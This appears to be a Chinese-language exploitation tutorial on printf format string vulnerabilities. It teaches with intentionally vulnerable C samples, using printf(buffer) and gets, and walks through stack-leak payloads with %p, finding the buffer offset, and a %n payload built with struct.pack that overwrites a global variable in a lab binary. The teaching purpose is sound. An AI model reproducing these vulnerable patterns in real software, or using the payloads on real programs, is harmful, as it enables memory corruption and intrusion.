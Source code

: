 # Format String Vulnerability 1



​	格式化字符串漏洞是由于不良的编程实践导致的。如果一个程序，把用户输入作为参数没有做严格的校验就使用如 `printf` 、`sprintf`、`fprintf` 这类的函数进行格式化输出。那么攻击者可以通过利用漏洞实现任意内存读写。



下面是一段示例代码：

```C
int main(int argc, char** argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf(buffer);
    return 0;
}
```



`printf` 函数接收多个参数，它本身不能识别接收的参数个数，而是需要程序员通过使用格式化占位符，来指定要接收的参数个数以及参数的类型。



了解printf是如何读取多个参数的：

[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).

了解格式化占位符：

[this](http://www.cplusplus.com/reference/cstdio/printf/).



对于上面的示例代码，假设你给程序一个正常的输入，如输入你的用户名，像这样： `./string0 Rohit`

你会得到和你输入一样的字符串作为输出。但攻击者并不会按照你程序设想的来。假设你喂给程序的输入是 一个 `%x` （因为攻击者知道`printf`函数接收的第一个参数是格式化字符串，所以这没有什么奇怪的。）一个畸形的格式化字符串也许能泄露出栈上面的内容。



:astonished: 攻击者可以获取到 Stack 中的内容。​



### 获取栈上面的内容



尝试这样执行：

```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$
```
瞧，发生了什么？



`%p` 是以十六进制格式打印内存中的内容的格式化占位符。攻击者戏弄 **printf** ，通过喂给程序格式化占位符，而不是一般的字符串，让它打印出内存中的内容。这就是格式化字符串漏洞。



### 除此之外还能做什么？



不仅仅是泄露内存数据。这类型的漏洞可以允许攻击者写任意内存。要想理解写任意内存的实现原理，我们需要先弄清楚一个特殊的格式化占位符：`%n` 。这个占位符可以让 **printf** 根据后面跟的一个参数，写任意内存地址。

e.g

```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```


简单讲，`%n` 把前面字符串中字符的个数写到变量`i`的地址内存中。





现在我们明确了两样东西：

* 复用格式化占位符作为 printf() 的传入参数来获取内存中的数据.
* 修改Stack上任意内存空间(变量的值).



### 来看一个实际的利用 :metal:




利用格式化字符串很重要的一点在于确定offset。首先我们需要确定大概需要跳过多少个4byte大小（x86）的内存，然后就可以触碰到buffer。为了确定这个offset，我首先输入 `AAAA` 作为buffer的起始，使用下面的payload进行测试：

​	``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``

得到的程序输出如下：

​	`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`



留意这里，`0x41414141` 是在程序输出中的倒数第三个。对应就是我们输入的AAAA。这就意味着我们越过9个 `%p`后，也就是第10个的时候就是我们的buffer的位置。你需要自己在自己的环境中进行测试，你可能会是跟我这里不一样的offset。

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```


​	现在，我要来证明如何使用我们已经学到的知识来改变程序的控制流。请看上面这段代码，利用前面讲的方法通过利用格式化字符串漏洞来确定到buffer的offset。进一步确定buffer的address。

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`

​	Output:

`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.

​	在我这个环境中这里同样是在 第10个位置上。:metal:

接下来思考一下：

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`

​	执行上面这段命令，会把格式化字符串的长度 `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` 也就是十进制的 32 写到第10个参数所在的内存中。而第10个参数就是对应的我们的 `0x41414141` 因此，这就是说这段payload会把内存中原来的 `0x41414141` 覆写为值32。但如果内存被设置为 **read-only** 你会得到一个 `Segmentation Fault` 

​	那么对于这种情况，假如说我们喂给程序的是一个有意义的值，而不是 `0x41414141` 那又会怎样呢？如此一来，使用 `%n` 就可以把值写到我们提供的内存地址了。



​	对于上面这个案例，我们可以通过静态的方式去拿变量 `myvar` 的地址。

`objdump -t ./string1 | grep myvar`
`0804a028 g     O .bss    00000004              myvar`

​	第一列所对应的就是`myvar`变量的地址。

​	接着我们要构造exploit实现修改程序中变量的值来实现修改程序后面的控制流结构。

`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``

​	得到如下的输出：

``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

​	:cool: 我们成功地利用了这个漏洞。



#### 学到了什么：



​	利用格式化字符串漏洞，我们可以exploit程序，实现修改任意地址内存中的值。